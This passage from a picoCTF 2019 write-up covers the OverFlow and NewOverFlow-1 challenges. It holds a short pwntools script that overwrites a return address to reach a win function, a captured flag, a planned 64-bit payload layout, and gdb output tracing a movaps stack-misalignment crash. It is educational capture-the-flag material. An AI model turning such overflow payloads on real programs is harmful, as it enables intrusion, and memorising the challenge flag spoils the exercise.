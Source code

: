 ```python

win_addr = 0x080485e6

payload = 'a'*(0x48+4)+p32(win_addr)

sh.sendlineafter(': ', payload)

sh.interactive()
```

flag: `picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a32b9368}`

# NewOverFlow-1

## Problem

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in /problems/overflow-1_2_305519bf80dcdebd46c8950854760999 on the shell server. Source.

[Binary](/blog/picoctf-2019-writeup/binary-exploitation/NewOverFlow-1/vuln)

[Source](/blog/picoctf-2019-writeup/binary-exploitation/NewOverFlow-1/vuln.c)

## Solution

This is a simple buffer overflow challenge like [OverFlow 1](#overflow-1) (read this to see how I found the return address offset), but instead of 32 bit, it is now 64 bit.

There's a slight problem with calling the win function directly because of buffering problems, so we need to call the main first before calling the win function. Our payload would look something like this:

- offset
- main_addr
- win_addr

---

> **2019.10.13 Update**

The problem with calling the win function directly is **not** because of buffering issues. Instead, it is triggered by a stack misalignment. When we send a payload without calling the main function:

- offset
- win_addr

We see in gdb (with [gef](https://github.com/hugsy/gef)) that it crashed on `movaps`:

```
...
   $rsp   : 0x00007ffda0c16528  →  0x0000000000000000
...
   0x7f32ef45065c <buffered_vfprintf+140> punpcklqdq xmm0, xmm0
   0x7f32ef450660 <buffered_vfprintf+144> mov    DWORD PTR [rsp+0xa4], eax
   0x7f32ef450667 <buffered_vfprintf+151> lea    rax, [rip+0x3890f2]        # 0x7f32ef7d9760 <_IO_helper_jumps>
 → 0x7f32ef45066e <buffered_vfprintf+158> movaps XMMWORD PTR [rsp+0x50], xmm0
   0x7f32ef450673 <buffered_vfprintf+163> mov    QWORD PTR [rsp+0x108], rax
   0x7f32ef45067b <buffered_vfprintf+171> call   0x7f32ef44d390 <_IO_vfprintf_internal>
   0x7f32ef450680 <buffered_vfprintf+176> mov    r12d, eax
   0x7f32ef450683 <buffered_vfprintf+179> mov    r13d, DWORD PTR [rip+0x39225e]        # 0x7f32ef7e28e8 <__libc_pthread_functions_init>
   0x7f32ef45068a <buffered_vfprintf+186> test   r13d, r13d
```

